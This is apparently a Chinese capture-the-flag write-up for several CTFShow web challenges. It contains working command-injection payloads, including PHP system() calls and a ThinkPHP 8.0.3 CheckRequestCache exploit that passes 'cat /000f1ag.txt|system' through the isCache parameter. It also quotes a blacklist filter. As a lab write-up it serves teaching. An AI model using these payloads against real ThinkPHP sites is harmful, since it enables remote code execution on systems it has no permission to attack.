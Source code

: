 官方 wp 中出题的思路应该是比较复杂的，但其实直接 base64 解码 flag 变量就完事了...

```shell
❯ echo 'Q1RGU2hvd3tURVNUX0JBU0U2NF9CSUFOTUF9Xw-' | base64 -d
CTFShow{TEST_BASE64_BIANMA}_base64: invalid input
```

提交 CTFShow{TEST_BASE64_BIANMA}


### CodeInject {#codeinject}

签到题，直接执行代码

```text
http --verify no -f https://2db56ea5-d48e-469f-ae42-194cc9bd7a06.challenge.ctf.show/ 1="system('cat /000f1ag.txt')"
```


### tpdoor {#tpdoor}

题目提供的代码很有限，只知道可以通过 isCache 参数控制 request_cache_key 配置项

先通过路由错误确认 ThinkPHP 的版本为 V8.0.3

```text
https://acf3a4dd-e196-4d00-ba5a-4443ee775efb.challenge.ctf.show/?s=foo
```

然后需要审计一下 ThinkPHP 源码，既然可以控制缓存机制的 key，题目代码中也启用了检查缓存的中间件 [CheckRequestCache](https://github.com/top-think/framework/blob/v8.0.3/src/think/middleware/CheckRequestCache.php)，就从它入手

审计代码可以发现漏洞存在于 parseCacheKey 方法，[L152](https://github.com/top-think/framework/blob/5e59fb1e2bcb400c6f82e99d1a40dd058afc8563/src/think/middleware/CheckRequestCache.php#L152) 以 `|` 分割 key，然后将后面部分赋值给 `$fun` 。之后没有经过任何安全过滤，在 [L178](https://github.com/top-think/framework/blob/5e59fb1e2bcb400c6f82e99d1a40dd058afc8563/src/think/middleware/CheckRequestCache.php#L178) 把 `$fun` 作为函数执行，而参数就是分割后的前面部分

so

```shell
http -b bd7550d8-af8b-4361-9bad-e169fd8ec931.challenge.ctf.show isCache=='ls /|system' cacheTime==5
http -b bd7550d8-af8b-4361-9bad-e169fd8ec931.challenge.ctf.show isCache=='cat /000f1ag.txt|system' cacheTime==5
```

<details><summary>tips</summary></details>


### easy_polluted {#easy-polluted}

Python 的原型污染，需要绕过黑名单，而且黑名单中有下划线，估计就是编码绕过了

```python
def filter(user_input):
    blacklisted_patterns = ['init', 'global', 'env', 'app', '_', 'string']
    for pattern in blacklisted_patterns:
        if re.search(pattern, user_input, re.IGNORECASE):
            return True
    return False
```
